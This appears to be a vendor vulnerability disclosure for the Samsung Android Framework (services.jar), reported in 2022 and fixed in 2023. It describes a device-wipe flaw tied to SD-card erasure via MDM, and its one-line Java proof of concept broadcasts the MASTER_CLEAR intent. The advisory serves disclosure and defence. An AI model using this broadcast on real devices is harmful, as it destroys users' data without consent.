

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Android Framework</td>
    </tr>
    <tr>
        <td>Library path</td>
        <td><code>/system/framework/services.jar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.03</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.01.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$590</td>
    </tr>
</table>

# Description

Oversecured found the ability to wipe the entire device in the `com/android/server/enterprise/security/SecurityPolicy.java` file when the user erases the SD card via MDM:


**Proof of Concept**

```java
sendBroadcast(new Intent("android.intent.action.MASTER_CLEAR"));
```

## References

- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)
